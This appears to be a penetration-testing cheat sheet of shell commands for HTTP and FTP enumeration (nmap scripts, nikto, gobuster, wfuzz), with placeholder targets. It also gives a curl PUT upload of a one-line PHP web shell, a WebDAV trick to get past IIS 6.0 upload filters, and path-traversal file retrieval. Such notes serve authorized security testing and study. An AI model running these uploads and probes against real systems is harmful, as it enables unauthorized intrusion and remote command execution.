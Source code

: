 * HTTP enumeration
``` sh
# run nmap NSE http scripts
nmap -Pn -p 80 --script http-vuln* <ip>

# heartbleed NSE script
nmap -Pn -p 443 --script ssl-heartbleed <ip>

# look for vulnerabitilies and server information
nikto -host <ip> -port <port>

# kali wordlists
ls -l /usr/share/wordlists

# dirb directory scan
dirb <url>

# gobuster directory scan
gobuster -w /usr/share/dirb/wordlists/common.txt -u <url> -f -l

# wfuzz fuzz URLS; lots of other fuzzing options, too
wfuzz -c -z <wordlist> --hc 404 http://<target>:<port>/FUZZ

# check the options on a directory; look for `Allow: PUT` to upload files
curl -v -X OPTIONS http://<host>/<directory>

# test file upload on directory that allows PUT
curl -v -X PUT -d '<?php echo shell_exec($_GET["cmd"]);?>' http://<host>/<directory>/webshell.php
curl -v -X PUT -T <pathtofile> http://<host>/<directory>/<destfilename>

# if curl file upload works and the target is Windows, it is worth exploring WebDav upload via `cadaver`
# below also shows a workaround for .asp file upload filters <= IIS 6.0
cadaver <target>
dav:/> put shell.asp.txt
dav:/> copy shell.asp.txt shell.asp;.txt # alternative to `copy` is `move`
# file is now executable and exposed in IIS directory

# further WebDAV enumeration
davtest -url <url>

# retrieve files via dotdot paths with `dotdotpwn`; this works with other protocols, too
dotdotpwn -m http -h <ip> -x <port> -f <pathtoretrieve> -k <keywordthatmustbepresent> -d <depth> -t <millisperrequest> -s

# check web application firewalls
wafw00f http://<ip>:/<port>/
```

* FTP enumeration
``` sh
# run nmap NSE scripts
nmap -v -p21 -Pn --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-syst,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221 <target>
```
